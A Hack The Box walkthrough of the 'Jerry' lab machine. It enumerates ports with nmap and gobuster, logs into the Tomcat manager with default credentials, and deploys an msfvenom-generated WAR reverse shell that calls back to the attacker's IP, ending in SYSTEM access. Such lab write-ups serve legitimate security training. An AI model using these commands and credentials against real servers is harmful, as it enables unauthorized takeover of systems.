






# Jerry


## Initial Enumeration

Our initial enumeration doesn't leave much to the imagination here, our quick nmap scan only returns one open port.

```bash
nmap -sV 10.10.10.95
```



Naturally we assume Tomcat is our target for this box. On tomcat instances, you can reach the management console at `/manage`, but if you didn't know that already, you can find that using gobuster:

```bash
gobuster dir -u http://10.10.10.95:8080 -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -t 50
```



For the login we treat it like any other application, google for default credentials. Doing this brought me to a great github repository for default credentials where I found [this](https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown) page. Using the credentials `tomcat:s3cret` from that list gives us access. 

## Execution

Looking at the management console, we see something that catches our eye as a path to execution: 



Know that we know we can deploy `war` files to the server, we can generate a reverse shell with `msfvenom`:

```bash
msfvenom -p java/shell_reverse_tcp LHOST=$(tunip) LPORT=4443 -f war > evil.war
```


`tunip` is a handy bash alias I use to get my current IP address for Hack The Box. it is set to `ifconfig tun0 | sed -n '2 p' | awk '{print \$2}'` in my `~/.bash_aliases`



If you happen to work out of a folder shared between your kali VM and windows like I do, windows defender will nuke this file as soon as you generate it. So it's best to do this somewhere else (I just generated it in `/tmp`)


After uploading this file we can see it in the list of running applications:



Clicking on the link to our malicious application triggers the reverse shell. It just happens that Tomcat is run as `nt authority/system` in this case, so we now have full access to the system and are able to read the user and root flags:


